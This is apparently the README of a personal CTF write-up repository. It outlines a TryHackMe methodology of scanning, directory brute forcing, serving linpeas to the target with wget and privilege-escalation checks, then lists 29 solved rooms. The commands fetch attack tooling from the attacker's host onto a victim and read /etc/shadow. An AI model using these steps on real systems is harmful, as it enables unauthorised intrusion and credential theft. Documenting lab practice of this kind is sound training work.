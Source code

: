- In my CTF challenges writeups, I often skip how to nmap scan, how direcotry brute forcing, how to get linpeas file, etc
- For that, I always use the same methods.

- First, I use zsh in my ubuntu machine and terminator (which can easily split screens, `Ctrl+Shift+o` for horizontal split and `Ctrl+Shift+e` for vertical split)
- After starting the rooms, I first export IP of the room `export IP=10.10.230.23` in `~/.zshrc` files

1. Nmap Scan

```sh
nmap -sC -sV $IP -oN nmap_init.log -vv
```

- if there are few ports found with default port scanning, I use rustcan to scan all ports (rustscan is fast)

```sh
rustscan -a $IP
```

2. Directory Brute Forcing with FFUF

- I first started with common.txt wordlist (I think it is inside Seclist but I move under usr folder)

```sh
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- If nothing found, use `directory-list-2.3-medium.txt` file

3. For sharing file from local machine to victim (room's) machine, I have already created folder `share/exploit`

- Inside that folder, I collect linpeas.sh, pspy, etc
- from local machine, create python server

```sh
python -m http.server 8888
```

- Then from room's shell,

```sh
wget http://$TUN0_IP:8888/linpeas.sh
```

4. For privilege escalation, I first check

```sh
sudo -l
id                # check groups, docker, sudo, lxd, etc
ls -la /home      # check the users with home directories
cat /etc/passwd   # check the users
cat /etc/shadow   # can i read this
cat /etc/crontab  # if there any cron jobs
sudo --version    # to check sudo bypass
find / -perm -4000 2>/dev/null # for suid bits
```

- if not found, run `linpeas.sh` file

## TRYHACKME

| No  | Title              | Tags                                      | Difficulty | Writeup                                          | Date Finished |
| --- | ------------------ | ----------------------------------------- | ---------- | ------------------------------------------------ | ------------- |
| 1   | Pickle Rick        | linux(su),web                             | easy       | [here](./TryHackMe/pickle_rick/readme.md)        | March 2, 2023 |
| 2   | Rootme             | linux(python),web                         | easy       | [here](./TryHackMe/rootme/readme.md)             | March 2, 2023 |
| 3   | Simple CTF         | linux(vim),web,crypt                      | easy       | [here](./TryHackMe/simple_ctf/readme.md)         | March 2, 2023 |
| 4   | Vulnversity        | linux(systemctl),web                      | easy       | [here](./TryHackMe/vulnversity/readme.md)        | March 2, 2023 |
| 5   | Bounty Hacker      | linux(tar),ftp                            | easy       | [here](./TryHackMe/bountyhacker/readme.md)       | March 2, 2023 |
| 6   | Agent Sudo         | linux(sudo bypass), web,ftp,crypt,stegano | easy       | [here](./TryHackMe/agentsudo/readme.md)          | March 2, 2023 |
| 7   | Overpass           | linux(writable hosts),web,crypt           | easy       | [here](./TryHackMe/overpass/readme.md)           | March 2, 2023 |
| 8   | Lazy Admin         | linux(sudo chain),web                     | easy       | [here](./TryHackMe/lazyadmin/readme.md)          | March 3, 2023 |
| 9   | Skynet             | linux(tar star files),web,smb             | easy       | [here](./TryHackMe/skynet/readme.md)             | March 3, 2023 |
| 10  | Startup            | linux(cron),web,ftp                       | easy       | [here](./TryHackMe/startup/readme.md)            | March 3, 2023 |
| 11  | TomGhost           | linux(zip),web,crypt(gpg)                 | easy       | [here](./TryHackMe/tomghost/readme.md)           | March 4, 2023 |
| 12  | Ignite             | linux,web                                 | easy       | [here](./TryHackMe/ignite/readme.md)             | March 4, 2023 |
| 13  | Brooklyn99         | linux(less),web,ftp                       | easy       | [here](./TryHackMe/brooklyn99/readme.md)         | March 4, 2023 |
| 14  | Cyborg             | linux(cron),web,borg,crypt                | easy       | [here](./TryHackMe/cyborg/readme.md)             | March 4, 2023 |
| 15  | Wgel               | linux(wget),web,ssh                       | easy       | [here](./TryHackMe/wgel/readme.md)               | March 4, 2023 |
| 16  | LianYu             | linux(pkexec),web,crypt,stegano           | easy       | [here](./TryHackMe/lian_yu/readme.md)            | March 5, 2023 |
| 17  | Year Of The Rabbit | linux(sudo bypass), web,crypt,stegano     | easy       | [here](./TryHackMe/year_of_the_rabbit/readme.md) | March 5, 2023 |
| 18  | BruteIt            | linux(cat),web                            | easy       | [here](./TryHackMe/bruteit/readme.md)            | March 6, 2023 |
| 19  | Chill Hack         | linux(docker),web,crypt                   | easy       | [here](./TryHackMe/chill_hack/readme.md)         | March 6, 2023 |
| 20  | Cmess              | linux(cron,tar),web                       | medium     | [here](./TryHackMe/cmess/readme.md)              | March 6, 2023 |
| 21  | Gaming Server      | linux(lxd),web,ssh                        | easy       | [here](./TryHackMe/gaming_server/readme.md)      | March 7, 2023 |
| 22  | Chocolate Factory  | linux(vi),web,ssh,stegano,crypt           | easy       | [here](./TryHackMe/chocolate_factory/readme.md)  | March 7, 2023 |
| 23  | Easy Peasy         | linux(cron),web,stegano,crypt             | easy       | [here](./TryHackMe/easy_peasy/readme.md)         | March 7, 2023 |
| 24  | GitHappens         | git                                       | easy       | [here](./TryHackMe/githappens/readme.md)         | March 7, 2023 |
| 25  | ArchAngel          | linux(cp),web(log poison)                 | easy       | [here](./TryHackMe/archangel/readme.md)          | March 7, 2023 |
| 26  | Fowsniff CTF       | linux(00-header),pop3,ssh                 | easy       | [here](./TryHackMe/Fowsniff/readme.md)           | March 8, 2023 |
| 27  | Agent T            | web(User-Agentt, php 8.1.0-dev)           | easy       | [here](./TryHackMe/agentT/readme.md)             | March 8, 2023 |
| 28  | Mustacchio         | linux(suid),web(xxe),ssh                  | easy       | [here](./TryHackMe/mustacchio/readme.md)         | March 8, 2023 |
| 29  | Corridor           | web(idor), crypt                          | easy       | [here](./TryHackMe/corridor/readme.md)           | March 8, 2023 |
